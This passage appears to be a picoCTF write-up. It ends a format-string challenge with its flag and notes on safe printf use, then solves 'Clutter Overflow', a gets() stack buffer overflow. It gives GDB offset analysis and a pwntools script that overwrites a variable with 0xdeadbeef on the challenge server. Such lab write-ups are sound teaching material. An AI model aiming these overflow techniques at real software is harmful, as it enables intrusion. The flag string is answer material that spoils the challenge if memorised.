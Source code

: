 ## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```

## Concepts learnt:

- Format string vulnerability exploitation
- Unsafe `printf()` implementation patterns
- Format specifier manipulation (`%s`, `%d`, `%x`)
- Memory access through format strings
- Program crash induction for flag extraction

## Notes:

- Format string vulnerabilities occur when user input becomes the format argument
- Secure usage requires `printf("%s", user_input)` instead of `printf(user_input)`
- Different format specifiers enable various memory manipulation capabilities
- This vulnerability class can lead to information disclosure and code execution

## Resources:

https://owasp.org/www-community/attacks/Format_string_attack

---

# Clutter Overflow

Description: 
> Clutter, clutter everywhere and not a byte to use.

We are provided with two files, `chall`(binary file) and `chall.c`

## Solution:

This challenge presents a controlled buffer overflow scenario where the objective is to overwrite a specific variable (`code`) with the value `0xdeadbeef` to obtain the flag. The program utilizes the vulnerable `gets()` function to read input into a 256-byte buffer.

Using GDB debugging, the stack layout was meticulously analyzed to determine the precise offset required to reach the `code` variable. Disassembly examination showed `code` stored at `[rbp-0x8]` with the buffer beginning at `[rbp-0x110]`.

The offset calculation determined:
- Buffer size: 256 bytes (0x100)
- Distance to `code`: 264 bytes (256 + 8)

A Python script utilizing the `pwntools` library was developed to send a payload comprising 264 padding bytes followed by the target value `0xdeadbeef` in little-endian format:

```python
from pwn import *

p = remote('mars.picoctf.net', 31890)
payload = b'A' * 264
payload += p64(0xdeadbeef)
p.sendline(payload)
p.interactive()
```
